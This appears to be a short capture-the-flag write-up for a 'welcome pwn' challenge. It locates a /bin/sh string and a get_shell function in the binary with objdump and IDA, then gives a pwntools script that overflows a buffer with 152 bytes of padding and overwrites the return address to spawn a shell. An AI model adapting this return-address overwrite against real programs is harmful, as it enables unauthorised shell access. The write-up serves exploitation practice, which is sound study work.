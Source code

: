 # welcome pwn

## solution
first let's display every section of the binary

![](objdump.png)

we notice here the string **/bin/sh** at the offset **40200**<br/>
let's check that offset with IDA

![](ida.png)

Yup we can confirm the this function will exectue a shell for us<br/>
it loads the address of /bin/sh then executes system<br/>
we will write a script that will make us jump to the get_shell function


```python
from pwn import * 

io = process('./welcome')


get_shell = 0x0401187

payload = ""
payload += "A" * 152
payload += p64(get_shell)


io.sendline(payload)
io.interactive()
```
